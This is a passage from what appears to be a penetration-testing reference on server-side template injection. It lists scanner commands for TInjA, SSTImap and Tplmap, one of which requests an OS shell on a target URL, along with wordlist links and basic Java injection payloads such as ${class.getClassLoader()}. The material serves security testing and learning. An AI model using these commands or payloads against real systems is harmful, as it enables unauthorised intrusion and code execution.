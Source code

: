 #### Identification by payloads

![[../../images/image (9).png|]]

*[[https://miro.medium.com/v2/resize:fit:1100/format:webp/1*35XwCGeYeKYmeaU8rdkSdg.jpeg|https://miro.medium.com/v2/resize:fit:1100/format:webp/1\*35XwCGeYeKYmeaU8rdkSdg.jpeg]]*


- More info in [[https://medium.com/@0xAwali/template-engines-injection-101-4f2fe59e5756|https://medium.com/@0xAwali/template-engines-injection-101-4f2fe59e5756]]

## Tools

### [[https://github.com/Hackmanit/TInjA|TInjA]]

an efficient SSTI + CSTI scanner which utilizes novel polyglots

```bash
tinja url -u "http://example.com/?name=Kirlia" -H "Authentication: Bearer ey..."
tinja url -u "http://example.com/" -d "username=Kirlia"  -c "PHPSESSID=ABC123..."
```
```
### [[https://github.com/vladko312/sstimap|SSTImap]]

```bash
python3 sstimap.py -i -l 5
python3 sstimap.py -u "http://example.com/" --crawl 5 --forms
python3 sstimap.py -u "https://example.com/page?name=John" -s
```
```
### [[https://github.com/epinna/tplmap|Tplmap]]

```python
python2.7 ./tplmap.py -u 'http://www.target.com/page?name=John*' --os-shell
python2.7 ./tplmap.py -u "http://192.168.56.101:3000/ti?user=*&comment=supercomment&link"
python2.7 ./tplmap.py -u "http://192.168.56.101:3000/ti?user=InjectHere*&comment=A&link" --level 5 -e jade
```
```
### [[https://github.com/Hackmanit/template-injection-table|Template Injection Table]]

an interactive table containing the most efficient template injection polyglots along with the expected responses of the 44 most important template engines.

## Exploits

### Generic

In this **wordlist** you can find **variables defined** in the environments of some of the engines mentioned below:

- [[https://github.com/danielmiessler/SecLists/blob/master/Fuzzing/template-engines-special-vars.txt|https://github.com/danielmiessler/SecLists/blob/master/Fuzzing/template-engines-special-vars.txt]]
- [[https://github.com/danielmiessler/SecLists/blob/25d4ac447efb9e50b640649f1a09023e280e5c9c/Discovery/Web-Content/burp-parameter-names.txt|https://github.com/danielmiessler/SecLists/blob/25d4ac447efb9e50b640649f1a09023e280e5c9c/Discovery/Web-Content/burp-parameter-names.txt]]

### Java

**Java - Basic injection**

```java
${7*7}
${{7*7}}
${class.getClassLoader()}
${class.getResource("").getPath()}
```